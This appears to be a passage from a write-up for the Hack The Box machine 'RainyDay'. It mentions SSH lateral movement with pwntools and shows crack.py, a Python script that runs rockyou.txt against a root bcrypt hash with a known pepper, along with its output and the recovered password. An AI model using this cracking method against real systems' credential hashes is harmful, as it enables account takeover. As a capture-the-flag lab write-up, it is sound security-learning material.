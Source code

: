 Notice that there are other functions to connect via SSH using [`pwntools`](https://github.com/Gallopsled/pwntools) and do a lateral movement from user `jack` to user `jack_adm` as shown in the [write-up](https://7rocky.github.io/en/htb/rainyday).

### `crack.py`

This script is used to crack a `bcrypt` hash for the user `root`. We guess that this hash was generated by the previous tool, so it has a pepper. Knowing this pepper, we can append it to all password from `rockyou.txt` and check if some of them matches the hash.

The code is self-explanatory:

```python
def main():
    if len(sys.argv) != 4:
        print(f'[!] Usage: python3 {sys.argv[0]} <wordlist> <hash> <pepper>')
        exit(1)

    wordlist = sys.argv[1]
    password_hash = sys.argv[2].encode()
    pepper = sys.argv[3].encode()

    with open(wordlist, 'rb') as f:
        passwords = f.read().splitlines()

    for password in passwords:
        if bcrypt.checkpw(password + pepper, password_hash):
            print(f'[+] Password: {password}')
            return
```

And this is the result:

```console
$ python3 crack.py $WORDLISTS/rockyou.txt '$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W' H34vyR41n  
[+] Password: b'246813579'
```
